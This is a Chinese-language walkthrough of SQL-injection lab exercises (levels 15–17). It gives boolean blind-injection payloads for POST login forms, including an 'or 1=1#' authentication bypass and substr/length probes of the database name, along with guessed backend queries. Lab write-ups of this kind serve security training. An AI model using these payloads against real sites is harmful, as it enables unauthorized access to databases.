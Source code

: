 



#### 15.	post盲注

注意此题的目标不是用户登录，而是通过bool注入的手段拿到后端数据



此题和11题基本类似，但是此题不是用作登录。



payload:

```
Username:' or length(database())>1#
Password:任意
```

> 注意：此题虽然可以直接使用`'`打断，然后`or 1=1#`登录。但是此题的目标并不是登录

因为目标并不是登录，所以使用`or`来判断后面`bool`注入的内容是否成立







猜测后端sql语句：

```
select * from users where username='前端数据' and password='前端数据' limit 0,1;
```



#### 16.

此题和15题基本相同。区别在于15题使用`'`单引号包裹数据，而此题使用`"`双引号和`()`小括号包裹数据

> 此题的目标也是获取数据库信息，而不是登录



payload:

```
") or substr(database(),1,1)='s'#
```



猜测后端sql语句：

```
select * from users where username=("前端数据") and password=("前端数据") limit 0,1;
```





#### 17.*	update语句注入

> 此题看了一眼源码才过的！！！


